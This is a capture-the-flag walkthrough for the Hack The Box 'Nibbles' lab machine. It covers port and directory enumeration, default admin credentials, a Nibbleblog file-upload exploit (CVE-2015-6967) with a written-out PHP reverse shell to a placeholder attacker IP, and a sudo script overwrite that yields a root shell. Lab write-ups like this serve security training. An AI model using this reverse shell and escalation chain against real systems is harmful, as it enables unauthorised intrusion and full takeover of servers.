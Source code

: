 ## HTB: Nibbles Walkthrough

**Difficulty:** Easy  
**OS:** Linux  
**Release Date:** [Insert if known]  

---

### 🕵️ Enumeration

#### 🔍 Nmap Scan
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
Discovered open ports:
- **22/tcp** - SSH
- **80/tcp** - HTTP

### 🌐 Web Enumeration
Visiting the site on port 80 reveals a PHP-based web application. View page source shows a hidden directory:

**Interesting Directory:** `/nibbleblog/`

#### 📂 Directory Fuzzing
```bash
gobuster dir --url "http://$IP/nibbleblog/" -w /usr/share/dirb/wordlists/small.txt -x php
```
Discovered:
- `/admin.php` – Admin login page

---

### 🔐 Exploitation

#### 🔑 Default Credentials & Exploit
- Found **default credentials**: `admin:nibbles`
- Confirmed to work on `/nibbleblog/admin.php`
- Vulnerable version: **Nibbleblog 4.0.3**
- Public exploit: CVE-2015-6967 – Arbitrary File Upload

#### 🐚 Reverse Shell Upload
Upload a PHP reverse shell through the **my_image** plugin:

**Payload (Replace IP and port):**
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("<ATTACKER_IP>",9001);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Start listener:
```bash
nc -nlvp 9001
```

Trigger the shell:
```bash
curl http://$IP/nibbleblog/content/private/plugins/my_image/image.php
```

---

### 🧗 Privilege Escalation

#### 🔍 Finding Personal Files
Found file: `personal.zip`  
Unzipped it contains a **bash script** monitoring resources.

```bash
sudo -l
```
Shows we can run the monitoring script **as root without password**.

#### 🛠️ Modify Script
Append reverse shell code or just spawn root shell:
```bash
#!/bin/bash
bash
```
Upload and overwrite the original script. Then execute it with sudo:
```bash
sudo /path/to/monitoring_script.sh
```

### 🏁 Root Access
You now have a **root shell** on the machine.

---

### 📝 Summary
- Gained web access using default creds on Nibbleblog.
- Exploited CVE-2015-6967 to upload a reverse shell.
- Found a user-owned zip file containing a script run as root.
- Modified script to spawn a root shell.

Cheers 🥂

